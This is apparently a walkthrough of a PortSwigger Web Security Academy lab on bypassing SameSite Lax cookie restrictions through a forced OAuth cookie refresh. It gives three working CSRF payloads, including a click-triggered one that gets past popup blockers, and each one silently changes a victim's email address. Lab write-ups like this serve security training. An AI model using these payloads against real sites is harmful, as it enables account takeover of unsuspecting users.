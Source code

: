 ![image](https://github.com/udayk01/Web-Security/assets/52235763/05c14125-1bdf-48aa-a292-3c2dd66ee45c)

## Solution:

### Study the change email function

> In Burp's browser, log in via your social media account and change your email address.

![image](https://github.com/udayk01/Web-Security/assets/52235763/e5b53115-6fa8-4415-8660-ce2561c2a4fa)

> In Burp, go to the Proxy > HTTP history tab.

> Study the POST /my-account/change-email request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass any SameSite cookie restrictions.

![image](https://github.com/udayk01/Web-Security/assets/52235763/7bd42ac5-952f-45c1-b9cf-958430c34493)

> Look at the response to the GET /oauth-callback?code=[...] request at the end of the OAuth flow. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default Lax restriction level.

![image](https://github.com/udayk01/Web-Security/assets/52235763/fe6c3576-26a8-4685-801a-9178fd721246)

### Attempt a CSRF attack

> In the browser, go to the exploit server.

> Use the following template to create a basic CSRF attack for changing the victim's email address:
```
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/01010eee-d097-4b00-9d12-9fca2e1502bd)

> Store and view the exploit yourself. What happens next depends on how much time has elapsed since you logged in:

![image](https://github.com/udayk01/Web-Security/assets/52235763/00d417ce-bf7b-4096-9595-e821006a69c4)

> If it has been longer than two minutes, you will be logged in via the OAuth flow, and the attack will fail. In this case, repeat this step immediately.

> If you logged in less than two minutes ago, the attack is successful and your email address is changed. From the Proxy > HTTP history tab, find the POST /my-account/change-email request and confirm that your session cookie was included even though this is a cross-site POST request.

![image](https://github.com/udayk01/Web-Security/assets/52235763/f41ea241-b7ef-4c3f-bb0e-c6f818cc6d96)

### Bypass the SameSite restrictions

> In the browser, notice that if you visit /social-login, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction.

![image](https://github.com/udayk01/Web-Security/assets/52235763/b2fb2e8b-ede1-44dd-af9b-275731b173d1)

> From the proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.

![image](https://github.com/udayk01/Web-Security/assets/52235763/ed5866a9-ca3c-4b13-a854-983c90584e34)

> Go back to the exploit server.

> Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit /social-login, then submits the email change request after a short pause. The following is one possible approach:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/79a7fbab-ea6a-46cb-9b09-06bbdd706868)

> Note that we've opened the /social-login in a new window to avoid navigating away from the exploit before the change email request is sent.

> Store and view the exploit yourself. Observe that the initial request gets blocked by the browser's popup blocker.

![image](https://github.com/udayk01/Web-Security/assets/52235763/e419c2ae-4ec9-4bf6-b722-0af6e8faa1e6)

>> Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.

### Bypass the popup blocker

> Realize that the popup is being blocked because you haven't manually interacted with the page.

> Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/f2815ad1-bca3-46a7-b53f-0cc4d402a606)

> Test the attack on yourself again while monitoring the proxy history in Burp.

![image](https://github.com/udayk01/Web-Security/assets/52235763/c7a6237b-0f54-43ef-bc70-e624e8051611)

> When prompted, click the page. This triggers the OAuth flow and issues you a new session cookie. After 5 seconds, notice that the CSRF attack is sent and the POST /my-account/change-email request includes your new session cookie.

![image](https://github.com/udayk01/Web-Security/assets/52235763/d5b9ded2-b362-4d44-936f-d7d36631fa8a)

> Go to your account page and confirm that your email address has changed.

> Change the email address in your exploit so that it doesn't match your own.

![image](https://github.com/udayk01/Web-Security/assets/52235763/1b94435a-0b39-4a6d-8029-b3715dd422b4)

> Deliver the exploit to the victim to solve the lab.

![image](https://github.com/udayk01/Web-Security/assets/52235763/c81d557b-6f1e-4f62-b674-21a4b43fbd6a)
